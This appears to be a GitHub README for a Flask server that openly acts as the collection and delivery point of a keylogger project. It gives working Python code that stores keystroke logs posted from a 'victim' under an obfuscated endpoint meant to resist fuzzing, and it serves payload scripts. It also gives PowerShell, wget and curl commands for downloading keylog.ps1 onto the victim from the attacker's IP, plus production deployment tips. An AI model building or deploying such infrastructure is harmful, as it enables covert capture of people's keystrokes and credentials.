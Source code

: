 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Web server with Flask
Simple python script, to launch a web server which takes POST and GET requests.

## How to use:

- Download the file `webhook`
- Edit `app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)` , to the IP and Port, you want to listen the incoming traffic.
- Give permission `chmod 700 webhook`
- Run `./webhook`
  
**Profit!**   
Webhook is now running:
- `/c2VydmVy` end point, for example `http://IP_YOU_WANT_TO_LISTEN/c2VydmVy, accepts POST requests, in our project, designed for receiving the keylogs from victim.
- `/c2VydmVy/filename` endpoint takes GET requests, for example if you have `keylog.ps1` script in the same folder where the webhook is executed, you can fetch the script to victim:
	- Windows (2 examples): 
		- `Invoke-WebRequest -Uri http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1 -OutFile "test.ps1"`
		- `(New-Object System.Net.WebClient).DownloadFile("IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1", "test.ps1")`
	- Linux (2 examples): 
		- `wget http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1`
		- `curl http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1 -o test.ps1`
---

### Commented code:

```python
#!/bin/python3
from flask import Flask, request, send_from_directory
import os

app = Flask(__name__)

# Define the working dir to a variable
WORKING_DIR = os.path.dirname(__file__)

# Function to get the next available log number
def get_next_log_number():
    log_number = 1
    while os.path.exists(os.path.join(WORKING_DIR, f'log-{log_number}.txt')):
        log_number += 1
    return log_number

# @app.route('/')
# def handle_root():
#    return "KUCKUU!"

# Handling POST requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy', methods=['POST'])
def handle_webhook_post():
    # Checking if the request method is POST
    if request.method == 'POST':
        # Getting the data from the request
        data = request.data

        # Check if the data contains Mac-style line endings
        if b'\r' in data:
            # Replace Mac-style line endings with Unix-style line endings
            data = data.replace(b'\r', b'\n')

        # Getting the next available log number
        log_number = get_next_log_number()
        # Generating the log filename based on the log number
        log_filename = f'log-{log_number}.txt'

        # Writing the received data to the log file in the script's directory
        log_filepath = os.path.join(WORKING_DIR, log_filename)
        with open(log_filepath, 'wb') as file:
            file.write(data)

        # Returning a response indicating successful receipt and logging of data
        return f"Webhook data received and logged as {log_filename}", 200
    else:
        # Returning a 501 status code for unsupported methods
        return "Unsupported method", 501

# Handling GET requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy/<filename>', methods=['GET'])
def download_file(filename):
    try:
        # Using send_from_directory to serve the file from the script's directory
        return send_from_directory(WORKING_DIR, filename, as_attachment=True)
    except FileNotFoundError:
        # Returning a 404 status code if the file is not found
        return "File not found", 404

# Running the Flask app if this script is executed directly
if __name__ == '__main__':
    # Configuring the Flask app to run on a specific host and port
    app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)
```


### Deployment to production

Deployment to production have been tested with:   
**Debian 12 - 1 Core - 256mb RAM**

Using the guides below:  

With Nginx and Gunicorn:   
[DigitalOcean - How to serve Flask application with Gunicorn and Nginx](https://www.digitalocean.com/community/tutorials/how-to-serve-flask-applications-with-gunicorn-and-nginx-on-ubuntu-22-04)

With Apache:   
[Tero Karvinen - Deploy Python Flask to Production](https://terokarvinen.com/2020/deploy-python-flask-to-production/)



